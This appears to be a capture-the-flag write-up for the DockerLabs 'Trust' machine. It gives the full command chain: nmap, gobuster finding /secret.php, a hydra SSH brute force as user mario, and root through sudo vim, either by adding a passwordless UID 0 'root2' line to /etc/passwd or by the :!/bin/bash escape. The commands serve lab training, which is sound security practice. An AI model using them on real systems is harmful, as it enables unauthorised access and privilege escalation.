







# Trust — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | gobuster, SSH, hydra brute force, sudo vim, /etc/passwd |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```



Ports 22 (SSH) and 80 (HTTP/Apache). Apache default page was at the root. Directory enumeration was the next step.

---

## 2. Directory Enumeration

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt
```



Found `/secret.php` — a non-standard page that revealed a potential username.



User identified: `mario`

---

## 3. SSH Brute Force with hydra

With a username and SSH open, brute-forced the password:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://<IP> -I -T 100
```

**Flags:**
- `-I` — ignore existing restore file, start fresh
- `-T 100` — use 100 parallel threads for speed



Logged in as `mario` via SSH.

---

## 4. Privilege Escalation — sudo vim → /etc/passwd

```bash
sudo -l
```



`mario` could run `vim` as root with no password. vim can execute shell commands and edit system files. The direct path to root: edit `/etc/passwd` and add a passwordless UID 0 user.

```bash
sudo vim /etc/passwd
```

Added this line to the file:

```
root2::0:0::/root:/bin/bash
```



Saved and exited vim (`:wq`), then switched to the new user:

```bash
su root2
whoami
# root
```



---

## Key Takeaways

**Hidden PHP pages expose attack surface.** `/secret.php` was only findable via directory brute force — it wasn't linked from anywhere. Gobuster with a wordlist is essential on every web port.

**hydra is effective for SSH brute force when the username is known.** With a single target username and rockyou, weak passwords fall quickly. High thread count (`-T 100`) speeds things up significantly.

**sudo vim = root.** vim can open, edit, and write any file when run as root. Adding a UID 0 user to `/etc/passwd` is the simplest escalation. Note: `sudo vim` also allows breaking out to a shell directly with `:!/bin/bash` inside vim — no need to edit files at all.
